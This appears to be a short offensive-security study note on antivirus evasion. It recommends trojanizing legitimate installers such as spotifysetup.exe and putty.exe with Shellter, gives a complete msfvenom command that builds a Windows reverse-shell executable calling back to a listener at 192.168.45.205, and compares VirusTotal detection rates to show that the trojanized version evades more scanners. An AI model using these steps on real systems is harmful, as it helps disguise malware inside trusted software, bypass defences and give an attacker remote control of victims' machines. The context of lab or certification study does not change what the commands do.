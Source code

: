 # AV Evasion

We can use shellter to create simple trojans for `.exe` files. See [here](https://www.shellterproject.com/tipstricks/) for tips and tricks.

**Executable Targets:**

- spotifysetup.exe
- putty.exe

Also, see [LOLBAS](https://lolbas-project.github.io/#)

### VirusTotal Test

**59/72 Hits:**

```bash
msfvenom -p windows/shell_reverse_tcp lhost=192.168.45.205 lport=9001 -f exe -o shell.exe
```

**26/72 Hits**

Same payload generated by utilizing an automated shellter trojan with `spotifysetup.exe`
